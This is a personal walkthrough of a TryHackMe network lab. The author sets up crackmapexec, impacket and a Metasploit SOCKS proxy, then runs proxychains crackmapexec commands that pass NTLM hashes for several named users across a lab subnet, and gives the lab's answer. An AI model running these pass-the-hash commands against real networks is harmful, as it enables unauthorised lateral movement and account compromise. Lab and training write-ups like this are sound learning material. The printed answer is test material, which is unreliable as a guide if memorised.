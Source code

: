 # Good Intentions, Courtesy of Microsoft 

Unfortunately I choose to solve a probelm by moving to the AttackBox for the remmina setup, but then crackmapexec was a massive pain to setup, I tried various methods so with all my proxychain and metsploit setup waiting to go I then could perform the exploit. Nevermind I added lots to my [Archive Respository](https://github.com/7RU7H/Archive). This took a very longtime I do not want to have sit through this again, possibly this is one of the weakness areas of TryHackMe, but I got loads coding and note formating done. I almost finished my LolbasFinder.ps1 script to check the existence of living off the land binaries on a Windows machine.

```bash
apt-get update
apt-get upgrade
apt install bloodhound
apt-get install amass python3-setuptools python3-tk python3-pip python3-dev
pip3 install impacket
apt install gem
```

Then I ran `locate impacket` after discovering it was already on the VM thankfully, which for some reason I thought it was not. Amusingly squished ascii art, but finally got this tool working.

[working](Screenshots/gi-working-cme.png)

Then had reinstall gem and and [reline](https://github.com/ruby/reline/)
```bash
cd /usr/share/metasploit-framework/vendor/bundle
bundle install
```

Got this error:
`'You have already activated thor 1.2.1, but your Gemfile requires thor 1.0.1. Prepending bundle exec to your command may solve this.'`

It feel sad to admit, this really was the wall in that pretty much ends the my attempt to only use TryHackMe VMs to complete this. Given that now I wouldnot be using the Attackbox or the Kali VM from THM there will be more of `this` and less screenshots. Also the approach for the proxying with metasploit as now I using msf6. Thanks to [gwillcox-r7](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/server/socks_proxy.md) for the Documentation.

```msfconsole
use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > options

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server
```

Add `socks5 	127.0.0.1 1080` to the proxycahin.conf file and comment out any anothers. I ran proxychains with four hases i have toggle here just in case:
```{toggle}
proxychains crackmapexec smb 10.200.102.0/24 -u admin-petersj -d THROWBACK.LOCAL -H 74fb0a2ee8a066b1e372475dcbc121c5

proxychains crackmapexec smb 10.200.102.0/24 -u PetersJ -d THROWBACK.local -H b81e7daf21f66ff3b8f7c59f3b88f9b6 

proxychains crackmapexec smb 10.200.102.0/24 -u BlaireJ -d THROWBACK.local -H c374ecb7c2ccac1df3a82bce4f80bb5b 

proxychains crackmapexec smb 10.200.102.0/24 -u HumphreyW -d THROWBACK.local -H 1c13639dba96c7b53d26f7d00956a364
```

![working](Screenshots/gi-crackmap-1.png)

Find all the output in this directory with the files starting "gi-pc-$username". Here is screenshot of it all working. 

![blaireJ](Screenshots/gi-crackmap-blairej.png)

## Answer

What two users could successfully pass the hash to THROWBACK-WS01? (In alphabetical order)
```{toggle}
BlaireJ, HumphreyW
```